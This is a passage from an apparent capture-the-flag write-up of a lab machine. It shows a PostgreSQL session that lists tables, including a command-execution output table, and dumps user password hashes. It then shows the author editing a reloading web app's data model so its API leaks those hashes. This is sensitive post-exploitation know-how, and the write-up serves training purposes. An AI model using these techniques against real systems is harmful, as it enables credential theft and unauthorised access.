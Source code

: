     postgres=# \connect mentorquotes_db 
    psql (14.6 (Ubuntu 14.6-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
    You are now connected to database "mentorquotes_db" as user "postgres".
    mentorquotes_db=# \dt
              List of relations
     Schema |   Name   | Type  |  Owner   
    --------+----------+-------+----------
     public | cmd_exec | table | postgres
     public | quotes   | table | postgres
     public | users    | table | postgres
    (3 rows)



I have no idea what the `cmd_exec` table is. It has the output of `id`
as the postgres user:



    mentorquotes_db=# select * from cmd_exec;
                                   cmd_output                               
    ------------------------------------------------------------------------
     uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
    (1 row)



`users` shows two users (mine has been cleaned up it seems):



    mentorquotes_db=# select * from users;
     id |         email          |  username   |             password             
    ----+------------------------+-------------+----------------------------------
      1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
      2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
    (2 rows)



#### Alternative Method to Dump Hashes

Above I talked about how the model was preventing the hashes from being
shown back to the user. I also noted that `uvicorn` was running with
`--reload`.

I'll use `vi` to edit `/app/app/api/models.py`, adding `password` to the
model:



    class userDB(BaseModel):
        id: int
        email: str
        username: str
        password: str 



I'll have to disconnect my shell, as the website doesn't seem to load
when I have it connected. But then I can hit the API, and it gives the
hashes:
